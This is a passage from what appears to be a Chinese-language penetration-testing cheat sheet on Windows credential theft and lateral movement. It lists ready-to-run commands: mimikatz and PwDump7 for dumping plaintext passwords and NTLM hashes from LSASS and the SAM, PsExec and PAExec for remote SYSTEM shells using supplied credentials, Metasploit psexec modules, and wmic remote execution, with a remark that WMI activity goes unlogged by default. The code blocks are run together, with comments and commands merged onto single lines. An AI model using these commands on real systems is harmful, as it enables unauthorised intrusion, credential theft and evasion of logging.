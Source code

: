 在 windows 操作系统中，Hash 的结构通常如下：

```
username:RID:LM-HASH:NT-HASH#服务器版从windows server2003以后，认证方式均为NTLM Hash#如果LM Hash被禁用了，工具抓到的LM Hash通常为：aad3b435b51404eeaad3b435b51404ee
```

单机密码抓取：

```
GetPassword\_x64.exe  #获得明文PwDump7.exe #获得NTML Hash#mimikatz本地读取privilege::debugtoken::elevatelsadump::sammimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"#mimikatz离线读取lsass.dmp#NishangImport-Module .\\Get-PassHashes.ps1
```

### 5.3 哈希传递攻击分析

参考链接: Mimikatz 使用大全

### 5.4 票据传递攻击分析

参考链接: MS14-068 复现 (CVE-2014-6324)

### 5.5 PsExec 的使用

在建立了 IPC$ 的情况下，执行如下命令，获取 System 权限的 Shell

```
PsExec.exe -accepteula \\\\192.168.100.190 -s cmd.exe#如果暂时没有建立IPC$连接的话，可以用-u,-p参数进行建立PsExec.exe -accepteula \\\\192.168.100.190 -u administrator -p 123456 cmd.exe /c "ipconfig"   #回显执行
```

```
#MSF中的psexec模块exploit/windows/smb/psexecexploit/windows/smb/psexec\_psh(Powershell版本,混淆)
```

在 webshell 的环境下，psexec 如果是在目标环境第一次运行的话，有可能会因为程序的 UAC，出现无法使用的情况，此时可尝试使用 paexec 进行横向渗透:

```
PAExec \\\\{server IP address} -s cmd.exePAExec \\\\{server IP address} ipconfigPAExec \\\\{server IP address} -u {username} -p {password} -i -c MyApp.exe
```

PAExec 下载链接

### 5.6 WMI 的使用

wmi 的命令没有回显，但其操作默认不会记录在日志中，需要借助 ipc$ 和 type 命令来读取信息

```
#远程执行wmic命令，目标服务器需开启135端口wmic /node:172.16.1.1 /user:administrator /password:123456 process call create "cmd.exe /c ipconfig >ip.txt"type \\\\192.168.100.190\\C$\\ip.txt
```

Linux:  
想要从 Linux 向 Windows 进行横向渗透的话，可以使用 impacket 工具包中的 wmiexec.py 文件，得到目标的 shell

Windows:  
可以通过 VBS 调用 VMI 来模拟 PsExec 的功能
